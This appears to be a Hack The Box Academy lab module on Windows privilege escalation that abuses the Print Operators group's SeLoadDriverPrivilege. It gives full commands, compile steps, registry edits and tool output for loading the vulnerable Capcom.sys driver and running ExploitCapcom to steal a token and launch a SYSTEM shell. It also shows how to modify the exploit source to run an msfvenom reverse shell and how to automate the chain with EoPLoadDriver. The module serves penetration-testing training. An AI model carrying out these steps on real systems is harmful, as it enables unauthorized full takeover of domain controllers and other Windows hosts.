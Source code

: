 # Print Operators

[Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`,
 rights to manage, create, share, and delete printers connected to a 
Domain Controller, as well as the ability to log on locally to a Domain 
Controller and shut it down. If we issue the command `whoami /priv`, and don't see the `SeLoadDriverPrivilege` from an unelevated context, we will need to bypass UAC.

### Checking Privileges Again

The [UACMe](https://github.com/hfiref0x/UACME)
 repo features a comprehensive list of UAC bypasses, which can be used 
from the command line. Alternatively, from a GUI, we can open an 
administrative command shell and input the credentials of the account 
that is a member of the Print Operators group. If we examine the 
privileges again, `SeLoadDriverPrivilege` is visible but disabled.

```
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================  ==========
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver. The PoC enables the privilege as well as loads the driver for us.

Download it locally and edit it, pasting over the includes below.

```c
#include <windows.h>#include <assert.h>#include <winternl.h>#include <sddl.h>#include <stdio.h>#include "tchar.h"
```

Compile it with these includes above in visual studio

```
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Microsoft (R) C/C++ Optimizing Compiler Version 19.28.29913 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj
```

### Add Reference to Driver

Next, download the `Capcom.sys` driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), and save it to `C:\temp`. Issue the commands below to add a reference to this driver under our HKEY_CURRENT_USER tree.

Print Operators

```
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

The operation completed successfully.

C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.

```

The odd syntax `\??\` used to reference our malicious driver's ImagePath is an [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). The Win32 API will parse and resolve this path to properly locate and load our malicious driver.

### Verify Driver is not Loaded

Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded.

Print Operators

```powershell
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

```

### Verify Privilege is Enabled

Run the `EnableSeLoadDriverPrivilege.exe` binary.

Print Operators

```
C:\htb> EnableSeLoadDriverPrivilege.exe

whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0

```

### Verify Capcom Driver is Listed

Next, verify that the Capcom driver is now listed.

Print Operators

```powershell
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys

```

### Use ExploitCapcom Tool to Escalate Privileges

To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

Print Operators

```powershell
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched

```

This launches a shell with SYSTEM privileges.

![https://academy.hackthebox.com/storage/modules/67/capcomexploit.png](https://academy.hackthebox.com/storage/modules/67/capcomexploit.png)

---

## Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

Code: c

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}

```

The `CommandLine` string in this example would be changed to:

Code: c

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");

```

We would set up a listener based on the `msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`. If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.

---

## Automating the Steps

### Automating with EopLoadDriver

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

Print Operators

```
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0

```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.